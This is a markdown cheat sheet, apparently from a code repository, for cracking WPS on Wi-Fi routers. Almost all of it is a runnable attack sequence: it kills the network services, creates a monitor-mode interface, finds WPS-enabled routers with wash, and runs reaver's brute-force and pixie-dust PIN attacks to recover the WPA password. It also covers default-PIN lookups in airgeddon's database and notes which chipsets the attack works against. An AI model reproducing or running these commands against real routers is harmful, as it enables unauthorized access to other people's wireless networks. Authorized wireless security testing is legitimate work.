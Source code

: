 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with WPS available
```text
sudo wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#### standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```

#### Notes
Success running this attack against Ralink and RealTek chipsets. And very spotty success against Broadcom chipsets
```text
sudo reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
#### Airgeddon - Known Pins
```text
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}	#first three parts of the BSSID CODE
echo /usr/share/airgeddon/known_pins.db ${PINDB["0013F7"]} 
grep "0013F7" /usr/share/airgeddon/known_pins.db
```

https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
